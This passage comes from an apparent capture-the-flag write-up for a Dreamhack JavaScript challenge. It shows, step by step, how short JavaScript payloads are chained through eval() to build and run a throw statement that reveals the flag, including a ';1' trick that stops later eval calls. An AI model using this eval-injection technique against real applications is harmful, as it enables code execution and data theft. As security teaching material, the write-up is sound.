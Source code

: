```js
f=flag
v="t"
v+="h"
v+="r"
v+="o"
v+="w"
v+="'"
v+=f
v+="'"
e=eval
e(v)
```

However, this is not sufficient, as we might notice that stage 3 actually makes 3 eval calls, and this may affect the way our payload is built. Ideally, we want only the first eval to be triggered, so we have to fail the first validation in the `if` statement.  

<img src="/blog/dreamhack_js_is_the_best_writeup/images/first_eval.png" width=400>

`eval()` will always return the string we assigned to the value, and the comparison will always evaluate to `false`, which will trigger the subsequent `eval()` calls.  

To prevent this, we can simply append a `1` to the back of each assignment, so that the `eval()` will always evaluate to `true`.  

However, since we are still limited to 6 characters, we have to use an auxillary variable `b` to store the character, such that we can fit `;1` at the back of each assignment payload.  

```js
f=flag
v="t"
b="h"
v+=b;1
b="r"
v+=b;1
b="o"
v+=b;1
b="w"
v+=b;1
b="'"
v+=b;1
v+=f;1
b="'"
v+=b;1
```

After submitting the series of payloads, we are finally able to view the flag.  

<img src="/blog/dreamhack_js_is_the_best_writeup/images/flag.png" width=600>